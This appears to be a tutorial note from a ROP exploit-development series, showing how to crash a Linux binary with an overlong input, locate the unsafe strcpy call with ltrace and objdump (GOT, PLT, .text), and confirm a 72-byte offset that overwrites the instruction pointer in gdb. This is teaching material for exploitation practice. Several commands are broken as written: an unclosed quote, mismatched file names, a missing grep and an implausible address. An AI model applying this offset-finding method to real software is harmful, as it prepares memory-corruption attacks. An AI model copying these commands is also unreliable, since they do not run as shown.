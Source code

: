 # ROP Finding the vulnerable function

* At this point you have been able to generate a crash on a linux binary. We now need to find the vulnerable function before progressing

```
# creating the crash 
python3 -c 'print("A"*100) > temp.txt
./binary file.txt

Segmentation fault
```

* use `ltrace` to see if there is a function that is causing the crash&#x20;

```
ltrace ./binary file.txt 2>&1 | grep SIGSEGV -B1
7120-strcpy(0x6fff3b10, "AAAAAAAAAAAAAAAAAA"...) = 0x2ffff108b
--snip--
```

* we can see that `strcpy` is the issue here causing the crash
* use `objdump` to see where in the code segment `strcpy()` is called.&#x20;
* Look at the GOT of the program and grep for `strcpy()`
* Then use the `objdump` tool to specifically query the `.plt` segment to see where the address in the GOT is referenced.
* After attaining the address use `objdump` tool once more and change the segment to `.text` and grep on the address shown in the PLT

```
objdump -R ./binary | grep strcpy
0304b00a R_386_JUMP_SLOT    strcpy
objdump -j .plt -d binary | grep b00a
70482b7:  ff 25 0a b0 04 03 jmp  *0x0304b00a 
objdump -j .text -d binary | 82b7 -B2 -A2
# you will see the vuln buffer size
# the address of strcpy@plt
# and a ret which is a good spot for a break to see 
# if your payload was successfully copied into mem 
```

* to validate your finding see if your buffer analysis was correct (72)

```
python3 -c print("A"*72 + "BBBB") > temp.txt
gdb ./binary 
run temp.txt
Program recieved signal SIGSEGV, Segmentation fault
0x42424242 in ?? ()
```
